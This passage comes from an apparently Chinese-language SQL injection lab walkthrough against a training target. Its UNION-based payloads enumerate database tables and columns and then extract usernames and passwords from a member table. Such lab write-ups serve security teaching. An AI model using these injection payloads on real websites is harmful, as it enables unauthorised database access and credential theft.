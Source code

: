 ```sql
//在informa_schema库中查询table_schema为‘mozhe_Discuz_StormGroup’的所有数据，输出到注入点
select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=‘mozhe_Discuz_StormGroup’  
```

![](https://img.yatjay.top/md/202203251631287.png)

得到数据库 `mozhe_Discuz_StormGroup`中一共有两张表，表名分别是`StormGroup_member`和`notice`

##### 查询指定表名的所有列名信息

在information_schema数据库中指定`table_name`字段(即表名)的值为`StormGroup_member`下的所有列名`column_name`信息：

```sql
http://219.153.49.228:43230/new_list.php?id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name=‘StormGroup_member’
```

```sql
//在informa_schema库中查询table_name为‘StormGroup_member’的所有数据，输出到注入点
select 1,group_concat(column_name),3,4 from information_schema.columns where table_name=‘StormGroup_member’
```

![](https://img.yatjay.top/md/202203251631032.png)

得到数据库`mozhe_Discuz_StormGroup`中的表`StormGroup_member`中一共有4列，列名分别为`id`、`name`、`password`、`status`

至此我们就掌握了当前数据库`mozhe_Discuz_StormGroup`下的表`StormGroup_member`的全部信息，同理可以查到数据库`mozhe_Discuz_StormGroup`下其他表的信息。

比如`StormGroup_member`表的结构如下：

| id   | name | password | status |
| ---- | ---- | -------- | ------ |
| ……   | ……   | ……       | ……     |

### 第5步：查询指定数据

#### 查询用户表中的用户名和密码信息

认定`StormGroup_member`就是数据库的用户表

在数据库`mozhe_Discuz_StormGroup`中的表`StormGroup_member`中查询用户名和密码信息

```sql
http://219.153.49.228:49521/new_list.php?id=-1 union select 1,name,password,4 from StormGroup_member
```

![](https://img.yatjay.top/md/202203251631543.png)

#### 猜解多个数据——通过limit n,1 变动猜解多个数据

如果查询结果是多条数据，而输出显示只显示一条数据中的部分字段，采用limit n,1来将每一条数据显示到注入输出点处：
